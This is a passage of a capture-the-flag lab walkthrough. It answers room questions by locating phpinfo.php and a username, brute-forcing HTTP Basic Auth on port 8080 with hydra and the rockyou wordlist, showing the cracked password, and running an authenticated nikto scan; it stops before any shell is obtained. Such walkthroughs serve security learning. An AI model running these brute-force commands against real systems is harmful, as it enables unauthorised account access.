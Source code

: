 There is another file which reveals information of the backend, what is it?
Answer: **phpinfo.php**

When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

Answer was mentioned in secret.txt: **joker**

What port on this machine need to be authenticated by Basic Authentication Mechanism?

Answer: **8080**

After i found username i brutforced 8080 port:

```
$ hydra -V -l joker -P /usr/share/wordlists/rockyou.txt -f 10.10.92.30 -s 8080 http-get /

[ATTEMPT] target 10.10.92.30 - login "joker" - pass "chloe" - 927 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "lawrence" - 928 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "xbox360" - 929 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "sheena" - 930 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "murphy" - 931 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "madalina" - 932 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "anamaria" - 933 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "gateway" - 934 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "debbie" - 935 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "yourmom" - 936 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "blonde" - 937 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "jasmine1" - 938 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "please" - 939 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "bubbles1" - 940 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "jimmy" - 941 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "beatriz" - 942 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "poopoo" - 943 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "diamonds" - 944 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "whitney" - 945 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.92.30 - login "joker" - pass "friendship" - 946 of 14344399 [child 14] (0/0)
[8080][http-get] host: 10.10.92.30   login: joker   password: hannah

```
At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

Answer: hannah

Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

Answer:**/administrator/**


We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?

```
┌──(guts㉿TORFF)-[~]
└─$ nikto -h http://10.10.92.30:8080/ -id joker:hannah  
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.92.30
+ Target Hostname:    10.10.92.30
+ Target Port:        8080
+ Start Time:         2025-07-18 21:15:13 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
```